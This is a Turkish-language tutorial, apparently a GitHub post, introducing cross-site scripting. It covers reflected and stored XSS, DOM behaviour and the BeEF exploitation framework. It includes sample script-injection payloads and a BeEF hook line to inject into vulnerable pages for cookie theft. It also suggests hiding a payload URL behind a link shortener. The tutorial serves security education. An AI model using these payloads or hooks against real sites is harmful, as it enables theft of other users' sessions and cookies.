 # **0x08 | XSS hakkında herşey part 1**

## **XSS nedir?**

Açılımı cross site scripting'tir ve siteler arası betik çalıştırma olarak çevrilebilir. Xss, bir çeşit js enjeksiyonu gibi düşünülebilir. Bir web uygulamasının frontend 
kısmına yönelik bir saldırıdır.

## **XSS nerede bulunur?**

Browsera dönen response'un içeriğinde html, css ve js bulunur. Bir siber güvenlikçi perspektifiyle bakacak olursak bizim için js her zaman daha önemlidir. Çünkü js 
uygulamanın hareket kabiliyetini belirler. XSS, %99 ihtimalle browsera dönen response'un body'sinde bulunur. 

<img width="1153" height="581" alt="image" src="https://github.com/user-attachments/assets/06e5ce8c-241f-4345-b66c-14ce0efbed57" />

Arama kısmında "mehmet" şeklinde arama yapıldığında sayfada input görülebilmektedir. 

<img width="474" height="60" alt="image" src="https://github.com/user-attachments/assets/379af923-fee4-483c-a367-ac33d679c1bf" />

Sayfanın html'i incelendiğinde de aynı şekilde görülebilmektedir.

<img width="400" height="46" alt="image" src="https://github.com/user-attachments/assets/be6e3446-0980-4420-bf05-561b748b7e65" />

Browserdan web sunucusuna bir post reqesti gider ve requestte bulunan query string ya da post parametreleri ile arama kısmına yazılan içerik sunucuya ulaşır. Kullanıcının kontrol edebildiği bu mekanizma xss açığı barındırabilir. 

## **DOM(Document Object Model) Mimarisi**

Bir web sitesinde sayfayı incele kısmına tıklanıp görülen içerik ile sayfanın kaynak kodu arasında fark vardır. Çünkü sayfanın kaynak kodundaki içerik browser tarafından yorumlanmıştır. Kaynak kod kısmındaki js kodları browser'ın interpreter'ı tarafından çalıştırılmıştır ve bu js kodları DOM'un üstündeki hareketleri değiştirir. Http response'un içerisindeki html içerik, browser için bir inputtur ve bir hacker'ın amacı bu input'un içinde ufak manipülasyonlar yapmaktır. 

Site içerisinde bir arama kutusuna isim yazdınız ve url'de bu hale geldi.

```
www.x.com/?keyword=mehmet
```

Kaynak kodu ise bu hale.

```
<div id="content">
 <h2 id='pageName'>searched for: mehmet</h2>
</div>
```

Eğer biz isim yazdığımız yere bu şekilde bir js kodu yazarsak yazılımcının istemediği bir şey yapmış oluruz.

```
www.x.com/?keyword=<script>alert()</script>
```

Koda da bu şekilde yansır.

```
<div id="content">
 <h2 id='pageName'>searched for: <script>alert()</script></h2>
</div>
```

Browser, <script>alert()</script> kısmını çalıştırmaması gerektiğini anlayamaz ve js kodunu çalıştırır. İşte xss'in başladığı nokta burasıdır. 

## **Verilerin farklı ortamlardaki durumu**

Web uygulamasına girilen data, php interpreterında bir data olsa da browsera response olarak geri döndüğünde data artık tag olur ve bu xss'i doğurur. 

<img width="434" height="201" alt="image" src="https://github.com/user-attachments/assets/dcc0a012-53ac-40f8-9cc3-a2195f906f78" />

Neden sürekli <script>alert()</script> denendiği sebebine gelirsek. Bu, pop-up çalıştırmamızı ve zafiyetin tespit edilmesini sağlar. İşin sömürü kısmına gelecek olursak frontend kısmının bozulması, cookilerin ve sessionların çalınması gibi şeylere yol açar xss.

## **BEEF XSS exploitation framework**

BeEF, profesyonel penetrasyon test cihazının istemci taraflı saldırı vektörlerini kullanarak gerçek bir hedef güvenlik ortamını değerlendirebilmesini sağlayan bir framework'tür.

Beef'i çalıştırdıktan sonra terminalde çıkan 2 ip.

```
[*]  Web UI: http://127.0.0.1:3000/ui/panel
[*]  Hook: <script src="http://127.0.0.1:3000/hook.js"></script>
```

"<script>alert()</script>" ile xss'in tespit edildiği yerde "<script src="http://127.0.0.1:3000/hook.js"></script>" çalıştırıyoruz ve beef panelinde online browsers kısmında siteyi görüyoruz. Burdan sonra command kısmında gelip cookielerin çalınmasından sosyal mühendislik saldırılarına kadar pek çok şey yapılabilir.

## **Reflected XSS**

Şimdiye kadar anlatılan xss aslında reflected xss idi. Türkçesi yansıyan xss anlamına gelen bu zafiyet türü, requesti gönderen bir kişinin browser'ında gerçekleşir. Birçok kullanıcının request-response cycle'ı vardır ve bunlar birbirinden bağımsızdır. Bu yüzden de bir saldırgan reflected xss bulduğu zaman bu başka kullanıcılar tarafından görülmez. 

Url shortener sitesine aşağıdaki url'i verildiğinde

```
http://boylebirsiteyok/?keyword=<script>alert(1)</script>
```

böyle bir url'e dönüştürecektir.

```
https://shorturl.at/mh965
```

Bu url'e tıklayan bir kullanıcı, hedef websitesine gider ve giderken browser tüm cookieleri ekler.

## **Stored XSS**

Reflected xss'in web app'ten gelen response'ta olduğundan bahsetmiştik. Şimdi bundan daha kötü bir senaryodan bahsedeceğiz. Payload'ın db'e kaydedildiği durum yani stored xss. Hatta bu db'den faydalanan başka web servisleri ve app'ler bile bu durumdan etkilenebilir. Stored xss kalıcı olarak sitede bulunur ve başka kullanıcılar da bundan etkilenir. Örneğin bir forum sayfasında bir saldırgan yorum olarak xss payload'ı ekledi. Yorumu gören bütün site kullanıcıları bu xss saldırısına maruz kalır. 
